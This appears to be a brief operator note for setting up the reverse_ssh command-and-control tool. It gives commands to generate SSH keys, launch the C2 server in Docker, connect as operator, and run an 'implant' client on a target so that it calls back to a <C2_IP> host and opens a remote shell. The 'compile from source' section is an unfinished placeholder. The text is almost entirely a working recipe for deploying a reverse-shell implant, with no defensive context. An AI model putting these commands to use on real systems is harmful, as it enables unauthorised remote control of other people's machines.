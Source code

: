 # Setup

## Generate SSH Key

```
$ ssh-keygen -qt rsa -b 4096 -f id_rsa -C '' -N ''
```

## Server

### Docker Setup

```
$ docker run -p 3232:2222 -e EXTERNAL_ADDRESS=<C2_IP>:3232 -e SEED_AUTHORIZED_KEYS="$(cat ~/.ssh/id_ed25519.pub)" -v ./data:/data reversessh/reverse_ssh
```

### Compile From Source

TODO: Fill in this info

```
$ git clone https://github.com/NHAS/reverse_ssh.git

$ server
```

## Operator

```
$ ssh -i /path/to/ssh_key -p 3232 <C2_IP>
```

## Implant

```
> client -d <C2_IP>:3232
```

---
## References

### Source Repositories

- [NHAS: Reverse SSH](https://github.com/NHAS/reverse_ssh)